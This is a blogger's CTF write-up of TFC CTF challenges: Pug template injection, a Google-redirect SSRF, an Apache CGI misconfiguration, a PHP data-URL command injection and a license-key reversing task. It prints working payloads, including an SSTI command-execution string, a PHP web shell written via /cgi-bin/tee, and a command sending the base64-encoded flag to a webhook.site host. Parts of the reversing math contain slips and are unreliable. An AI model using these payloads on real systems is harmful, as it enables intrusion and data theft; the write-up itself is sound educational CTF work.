



Hi guys, This weekend I attended [TFC CTF](https://ctftime.org/event/2423) which was fun and I learnt a lot of new things. Also I tried most of the web challenges but able to complete only one. But in this writeup I am going to discuss about other challenges and their solutions from discord. The challege I solved is Safe_Content ,a medium web challenge.

### Contents
*   Greetings[Web]
*   Surfing[Web]
*   Funny[Web]
*   Safe_Content[Web]
*   license[Reverse]

### Greetings [Web | Warmup]

Yes, I didn't solved this challenge during CTF. Basically we are given a web app which returns welcome message with our name. So the initially step is to test for SSTI and XSS. Xss worked but it was not an XSS challenge. For [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), 


I tried payloads like `${7*7}`,`{{7*7}}` but it never worked.Since it is blind challenge without source, I left it without solving. But After reviewing the solution, it turned out to be an SSTI challenge. The challenge uses node js for backend and it uses pugjs for templating. 

#### Trick Alert


Yes, entering URL encoded newline throws error revealing its using pugJs.


From there its simple SSTI to rce bug to read flag from server.
```
#{global.process.mainModule.constructor._load("child_process").execSync("cat flag.txt").toString()} 
```




### SURFING [Web | Easy]

In this challenge we are given a input box which asks for `google.com` URL. It fetches the url content and displays the results. For example if we google search URL *https://www.google.com/search?q=example&oq=example*, it fetches the entire page in json. So our obvious goal is to find SSRF[Since server accepts URL and returns response from URL]. On trying different domains like *example.com*, *evil.com*, the server throws error `Hacking detected, url must start with http://google.com/`. I tried open redirection using google URL. But its not easy to find, since we are talking about google.


Unable to solve this challenege too. After reading the writeup, it turned out to be a redirection vulnerability involving Google's [URL](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/trusted-domain-hidden-danger-deceptive-url-redirections-in-email-phishing-attacks/). 


According to the mentioned blog, the redirection to example.com will look like this `http://google.com/amp/s/example.com/#redacted@redacted`. What can we do this redirection, maybe SSRF!! .The redirection works for domain name like *example.com* ,*evil.com* .For SSRF we need something like localhost:{port} to redirect to localhost, But unforunately it didn't worked like that. So the idea is to host a webapp which redirects to localhost or use URL shortener. 

I have created a simple flask webapp and port forwarded using ngrok. Now when we redirect to ngrok using google URL it should redirect to `localhost` port 8000. For port number I thick we should brute force, since the challenge doesn't have any hints representing the port number. Tiny URL's will also work in this case to redirect to localhost.

#### Using Tiny URL


#### Using ngrok

```python
from flask import request,Flask,redirect

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def home():
    if request.method == 'GET':
        return redirect("http://localhost:8000")


if __name__=="__main__":
    app.run(host="0.0.0.0",port="9000",debug=True)

```





Now it is clear that the server has two applications, one flask web server for URL fetcher and PHP web server which is binded to localhost and has `admin.php`. From the respone it is clear we have to make a internal *GET* call to admin.php with username and password as `admin` to get the flag .So finally changing our `app.py` to redirect to *admin.php*. 

```
# Changing the redirect alone 
def home():
    if request.method == 'GET':
        return redirect("http://localhost:8000/admin.php?username=admin&password=admin")
```


### Funny [Web | Medium]

In this challenge we are given  given source and a simple php application which gets joke using `/new_joke` endpoint. So how to pwn this. On inspecting the Dockerfile we are sure that the application uses apache2 web server. The source also includes `httpd.conf` which has the http server's configurations.

Every configuration looks fine but this one particular config looks weird

```
ScriptAlias /cgi-bin /usr/bin
Action php-script /cgi-bin/php-cgi
AddHandler php-script .php

<Directory /usr/bin>
    Order allow,deny
    Allow from all
</Directory>
```

This config allows anyone to run any binaries from `/usr/bin` using `/cgi-bin` route. So the solution is to use binaries like `wget`, `nc` or `tee` to achieve remote code execution. 


`wget` the php code `<?php system($_GET["cmd"]); ?>` to `/var/www/public` path to achieve classic RCE. Got this `tee` command based solution from discord which uses **POST** request to write file contents. 

```
GET /cgi-bin/tee?/var/www/public/test.php HTTP/1.1
Host: localhost:1337
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 34

<?php system($_GET["cmd"]); ?>

GET /test.php?cmd=cat%20/flag.txt HTTP/1.1
Host: localhost:1337
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 34
```


### Safe_Content [Web | Medium]

This it the only challenge I solved. The challenge is same like surfing challenge which accepts URL as input. But the twist here is that while URL parsing it accepts the URL only if the host part of the URL contains `localhost`. The entire application source code is as follows.

```
<?php

    function isAllowedIP($url, $allowedHost) {
        $parsedUrl = parse_url($url);
        
        if (!$parsedUrl || !isset($parsedUrl['host'])) {
            return false;
        }
        
        return $parsedUrl['host'] === $allowedHost;
    }

    function fetchContent($url) {
        $context = stream_context_create([
            'http' => [
                'timeout' => 5 // Timeout in seconds
            ]
        ]);

        $content = @file_get_contents($url, false, $context);
        if ($content === FALSE) {
            $error = error_get_last();
            throw new Exception("Unable to fetch content from the URL. Error: " . $error['message']);
        }
        return base64_decode($content);
    }

    if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['url'])) {
        $url = $_GET['url'];
        $allowedIP = 'localhost';
        
        if (isAllowedIP($url, $allowedIP)) {
            $content = fetchContent($url);
            // file upload removed due to security issues
            if ($content) {
                $command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc';
                exec($command . ' > /dev/null 2>&1');
                // this should fix it
            }
        }
    }
    ?>
```

So we need to bypass the `isAllowedIP` method check and also make URL return contents such that it escapes the `command` while executing it.Data URL is the saviuor here, with which we can bypass `localhost` check and retunr `HTML` content. Since *fetchContent* method returns Base64 decoded content, we need to base64 encode our contents

```
#payload
&&curl webhook.site/cd422221-7ea9-44f2-bf5a-416cc2ef6350?q=$(cat /flag.txt | base64 | tr -d "\n")

#encoding it in data URL
data://localhost/text/html,JiZjdXJsIDFhY2QxeHh5ZTlwZ295ajloanVocWM2OGV6a3E4dHdpLm9hc3RpZnkuY29tP3E9JChjYXQgL2ZsYWcudHh0IHwgYmFzZTY0IHwgdHIgLWQgIlxuIik=
```

```
 curl -X $'GET' $'http://challs.tfcctf.com:32706/?url=data://localhost/text/html,JiZjdXJsIDFhY2QxeHh5ZTlwZ295ajloanVocWM2OGV6a3E4dHdpLm9hc3RpZnkuY29tP3E9JChjYXQgL2ZsYWcudHh0IHwgYmFzZTY0IHwgdHIgLWQgIlxuIik='
```


### License [Reversing | Warmup]

As the name suggests, the goal of this challenge is to find the license key of the binary. Unfortunately I didn't solved it during CTF, but for learning Reverse engineering I took this challenge and solved it after few days. 

Below is the disassembled main function.
```c
{
  int iVar1;
  size_t sVar2;
  
  puts("Please enter your license key to use this program!");
  fgets(&DAT_00104060,0x12,stdin);
  sVar2 = strlen(&DAT_00104060);
  if (sVar2 != 17) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (cRam0000000000104070 == '\n') {
    cRam0000000000104070 = '\0';
  }
  strncpy(&DAT_00104080,&DAT_00104060,8);
  DAT_00104088 = 0;
  iVar1 = FUN_00101209(&DAT_00104080);
  if (iVar1 == 1) {
    puts("Nope");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (DAT_00104068 != '-') {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  strncpy(&DAT_00104090,&DAT_00104069,8);
  iVar1 = FUN_00101345(&DAT_00104090);
  if (iVar1 != 1) {
    puts("Congrats! Get the flag on remote.");
    return 0;
  }
  puts("Nope");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

The license key is checked in two functions , initiallly it is checked for lenght. So the length of license should be 17. And then it goes through two functions. Lets consider `FUN_00101209` as function_one and `FUN_00101345` as function_two respectively. function_one's disassembled code is 

```c
undefined8 FUN_00101209(long param_1)
{
  int remainder;
  undefined8 uVar1;
  long in_FS_OFFSET;
  int i;
  int j;
  byte dummy_var [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  for (i = 0; i < 8; i = i + 1) {
    remainder = i % 3;
    if (remainder == 2) {
      dummy_var[i] = *(char *)(param_1 + i) - 37;
    }
    else if (remainder < 3) {
      if (remainder == 0) {
        dummy_var[i] = *(byte *)(param_1 + i) ^ 0x5a;
      }
      else if (remainder == 1) {
        dummy_var[i] = *(char *)(param_1 + i) + 16;
      }
    }
    dummy_var[i] = dummy_var[i] ^ 0x33;
  }
  j = 0;
  do {
    if (7 < j) {
      uVar1 = 0;
LAB_0010132f:
      if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
        return uVar1;
      }
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    if ((uint)dummy_var[j] != (int)"Xsl3BDxP"[j]) {
      uVar1 = 1;
      goto LAB_0010132f;
    }
    j = j + 1;
  } while( true );
}
```

Lets solve function_one, so here the first 8 bytes of license are passed as arguments and checked. The first eight bytes go through some arithmetic and xor operations and checked with string `Xsl3BDxP`. This can be easily reversed using the below script.

```python
def find1(first_known_bytes):
    to_find = bytearray(8)
    for i in range(len(first_known_bytes)):
        to_find[i] = ord(first_known_bytes[i]) ^ 51
        if i%3 == 0:
            #If 3 modulus of index is 0 then it is xored with 90.
            to_find[i] = to_find[i] ^ 90
        elif i%3 == 1:
            #If 3 modulus of index is 1 then it is added with 16.
            to_find[i] = to_find[i] -16
        else:
            #If 3 modulus of index is 1 then it is subtracted with 37.
            to_find[i] = to_find[i] +37
    return to_find

if __name__ == '__main__':
    first_known_bytes = "Xsl3BDxP"
    # the seventh byte is checked for character '-'
    ans = find1(first_known_bytes) + b'-'
    print(ans)
```

Function_two's disassembled code is 

```c
undefined8 FUN_00101345(long param_1)
{
  int inter_int;
  ushort **ppuVar1;
  int j;
  int local_c;
  
  for (j = 0; j < 8; j = j + 1) {
    ppuVar1 = __ctype_b_loc();
    if (((*ppuVar1)[*(char *)(param_1 + j)] & 0x200) == 0) {
      ppuVar1 = __ctype_b_loc();
      if (((*ppuVar1)[*(char *)(param_1 + j)] & 0x100) != 0) {
        inter_int = *(char *)(param_1 + j) + -0x30;
        *(char *)(param_1 + j) = (char)inter_int + (char)(inter_int / 0x1a) * -0x1a + 'A';
      }
    }
    else {
      inter_int = *(char *)(param_1 + j) + -0x5c;
      *(char *)(param_1 + j) = (char)inter_int + (char)(inter_int / 0x1a) * -0x1a + 'a';
    }
  }
  local_c = 0;
  while( true ) {
    if (7 < local_c) {
      return 0;
    }
    if (*(char *)(param_1 + local_c) != "mzXaPLzR"[local_c]) break;
    local_c = local_c + 1;
  }
  return 1;
}
```

Here the remaining eight bytes are looped and for each byte if the character is upper case or lower case[the `__ctype_b_loc` and its [explanation](https://stackoverflow.com/questions/37702434/ctype-b-loc-what-is-its-purpose) and its mapping [here](https://ctftime.org/writeup/32308)] are determined by the `__ctype_b_loc`. The character if it is lower case performs

```c
// Here the char is subtracted by 92
inter_int = *(char *)(param_1 + j) + -0x5c;

//Here the inter_int is performed modulus by 26 and added with 97 and typecasted into char
*(char *)(param_1 + j) = (char)inter_int + (char)(inter_int / 0x1a) * -0x1a + 'a';
```

`(char)inter_int + (char)(inter_int / 0x1a) * -0x1a` is a operation which performs modulus 26 for a number. For example

```python 
# Lets take a inter_int as 12
12 + (12 / 26) * (-26)
12 + 0 * (-26)
12 + 0
12 #which is 12 mod 26

# Another example where inten_int as 52
52 + (52 / 26) * (-26)
52 + 2 * (-26)
52 - 52
0 # which is 52 mod 26
```

So it can be reversed by 

```python
x = z - 92
y = x mod 26 + 97
# where y is result chars and x is inter_int and z should be found
x mod 26 = y - 97
# So this means x is congruent to (y-90)
# For char 'a' y = 97
x mod 26 = 0
# So x can be multiple of 26 of k times
x = 26 * k
# Substituting x = (z-92)
z - 92 = 26 * k
z = 26*k + 92
# where k can be 0,1,2,...
# if k = 0
z = 92
# if k = 1
z = 26 + 92 = 118
# chr(118) = 'v'
```

The entire lower case letter char can be reversed by above method. For upper case letter, the simplified equation is `(z - 48) mod 26 = y - 65`.

```python
# For y = 'R' 
z - 48 = (26*k) + 117
z = (26*K) + 65 
z = 65 # if k = 1 ,so solution for 'R' is 'A' 
```

Well I got this elegant solution from discord.


